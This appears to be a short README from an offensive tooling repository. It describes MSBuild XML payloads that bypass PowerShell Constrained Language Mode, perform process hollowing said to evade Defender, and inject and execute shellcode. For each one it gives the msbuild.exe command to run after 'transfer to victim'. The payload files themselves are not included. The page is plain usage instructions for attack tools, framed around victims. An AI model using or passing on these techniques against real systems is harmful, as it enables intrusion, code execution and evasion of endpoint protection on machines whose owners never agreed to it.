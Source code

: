 ### CLM Bypass
- The source file `clm-bypass.xml` can be used to bypass CLM and obtain FullLanguage mode within the same session, transfer to victim and run: 
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe clm-bypass.xml`

### Process Hollowing
- The file `hollow.xml` can be used to perform process hollowing, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe hollow.xml`

### Shellcode Runner
- The file `shellcodeRunner.xml` used to inject and execute shellcode to the current process, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe shellcodeRunner.xml`

